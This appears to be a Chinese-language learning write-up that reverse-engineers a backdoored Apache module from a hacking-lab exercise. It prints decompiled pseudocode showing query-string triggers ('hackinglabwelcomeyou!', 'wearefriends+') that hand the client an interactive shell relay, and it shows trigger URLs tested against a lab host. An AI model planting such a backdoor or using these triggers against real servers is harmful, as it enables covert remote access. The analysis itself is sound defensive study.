 # 基础知识

以sub开头加地址的是没有函数表也不是debug的

# 先分析一个简单的
地址：[Apache-HTTP-Server-Module-Backdoor](https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor)

> 这个是使用了一个popen的函数执行了系统命令，配合源码，感觉比较容易看懂

![title](https://i.loli.net/2019/05/14/5cda26a7ac7a028583.png)


# 再来分析这个

首先，根据上面的思路，发现没有白底加粗的自定义的函数，，，，然后找到一个_init_proc初始化的一个函数,直接F5（目前还就会这一个操做）
```
void (*init_proc())(void)
{
  start();
  sub_1010();
  return sub_2280();
}
```
start()应该就是类似初始化的一些操做。和上一个对比了一下，发现并没有什么异常接下来查看sub_1010代码如下
```
signed __int64 __fastcall sub_2101(__int64 a1)
{
  int v2; // [rsp+14h] [rbp-Ch]
  __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = ap_get_module_config(*(_QWORD *)(*(_QWORD *)(a1 + 8) + 104LL), (__int64)&core_module);
  if ( v3 )
    v2 = *(_DWORD *)(v3 + 8);
  if ( *(_QWORD *)(a1 + 352) && !strcmp(*(const char **)(a1 + 352), "hackinglabwelcomeyou!")
    || *(_QWORD *)(a1 + 384) && !strcmp(*(const char **)(a1 + 384), "hackinglabwelcomeyou!") )
  {
    process_client(256, v2);
  }
  if ( *(_QWORD *)(a1 + 352) && !strcmp(*(const char **)(a1 + 352), "wearefriends+")
    || *(_QWORD *)(a1 + 384) && !strcmp(*(const char **)(a1 + 384), "wearefriends+") )
  {
    process_client(512, v2);
  }
  return 0xFFFFFFFFLL;
}
```
先读取了一个配置文件（后来我查了一下ap_get_module_config，应该是还可以读取url的一些信息），然后根据这个信息得到v2然后做了两个字符串的比较分别执行了process_client(256, v2)和process_client(512, v2)
```
void __fastcall __noreturn process_client(int a1, int a2)
{
  unsigned int v2; // edx
  int v3; // eax
  unsigned int v4; // edx
  ssize_t v5; // rax
  ssize_t v6; // rax
  char s1; // [rsp+10h] [rbp-10A0h]
  fd_set readfds; // [rsp+1010h] [rbp-A0h]
  int buf; // [rsp+1090h] [rbp-20h]
  int v10; // [rsp+1094h] [rbp-1Ch]
  int v11; // [rsp+1098h] [rbp-18h]
  int v12; // [rsp+109Ch] [rbp-14h]

  buf = a1;
  v10 = write(pipe_A[1], &buf, 4uLL);
  if ( v10 != 4 )
    exit(0);
  v10 = read(pipe_B[0], &buf, 4uLL);
  if ( v10 != 4 )
    exit(0);
  if ( buf == 16 )
    exit(0);
  while ( 1 )
  {
    memset(&readfds, 0, sizeof(readfds));
    v11 = 0;
    v12 = (unsigned __int64)&buf;
    v2 = (unsigned int)(pipe_B[2 * buf] >> 31) >> 26;
    readfds.fds_bits[pipe_B[2 * buf] / 64] |= 1LL << (((v2 + pipe_B[2 * buf]) & 0x3F) - v2);
    readfds.fds_bits[a2 / 64] |= 1LL << a2 % 64;
    v3 = a2;
    if ( pipe_B[2 * buf] >= a2 )
      v3 = pipe_B[2 * buf];
    v10 = v3;
    if ( select(v3 + 1, &readfds, 0LL, 0LL, 0LL) < 0 )
      exit(0);
    v4 = (unsigned int)(pipe_B[2 * buf] >> 31) >> 26;
    if ( !((readfds.fds_bits[pipe_B[2 * buf] / 64] >> (((v4 + pipe_B[2 * buf]) & 0x3F) - v4)) & 1) )
      goto LABEL_24;
    v10 = read(pipe_B[2 * buf], &s1, 0x1000uLL);
    if ( v10 > 0 )
    {
      if ( !strncmp(&s1, &s2, 4uLL) )
      {
        shutdown(a2, 2);
        exit(0);
      }
      v5 = send(a2, &s1, v10, 0);
      if ( v5 == v10 )
      {
LABEL_24:
        if ( !((readfds.fds_bits[a2 / 64] >> a2 % 64) & 1) )
          continue;
        v10 = recv(a2, &s1, 0x1000uLL, 0);
        if ( v10 > 0 )
        {
          v6 = write(pipe_A[2LL * buf + 1], &s1, v10);
          if ( v6 == v10 )
            continue;
        }
      }
    }
    shutdown(a2, 2);
    write(pipe_A[1], &buf, 4uLL);
    exit(0);
  }
}
```
> 这个就没有之前那么简单了，好像看一眼源码啊

综合一下上面的分析尝试访问下面两个url
```
view-source:http://192.168.72.137/?wearefriends+
回显rootme-0.3 ready，说明的确是这样用的

http://192.168.72.137/?hackinglabwelcomeyou!
无线连接，感觉有点像反弹shell时候的状态，而且上面的的函数命名为process_client有点可能是弹shell吧，那就是正向连接和反弹shell，正向连接的话防火墙并没有开放其他端口，反弹的话程序中也没有IP字段
```

> 感觉这里就遇到了瓶颈，对这个linux的动态链接库so还是了解的太少了，后来有对照着看了一下mod_version.so也没对比出东西来

放一些前面过程查询到的一些资料连接

apache动态链接库函数的一些说明
- [关于ap_get_module_config的一个问题](https://grokbase.com/t/apache/modules-dev/06amwtemvp/question-about-ap-get-module-config) 就是这个问题让我发现这个有可能是是根据url上提交参数的方式执行的
- [apache动态链接库里面的函数官方说明](https://ci.apache.org/projects/httpd/trunk/doxygen/group__APACHE__CORE__CONFIG.html#gab024c5a586118de1faaf48a7f41de025)

关于动态链接库的一些基础知识
- [解析如何在C语言中调用shell命令的实现方法](https://www.cnblogs.com/sky-heaven/p/4687489.html)讲了三个system()、popen()、vfork(),不知道全不全
- [C/C++ 静态链接库(.a) 与 动态链接库(.so)](http://www.cnblogs.com/52php/p/5681711.html)说了一下动态链接库的基础知识
- [Linux动态链接库.so文件的命名及用途总结](http://blog.sina.com.cn/s/blog_3ee731bc0102xx9n.html)
- 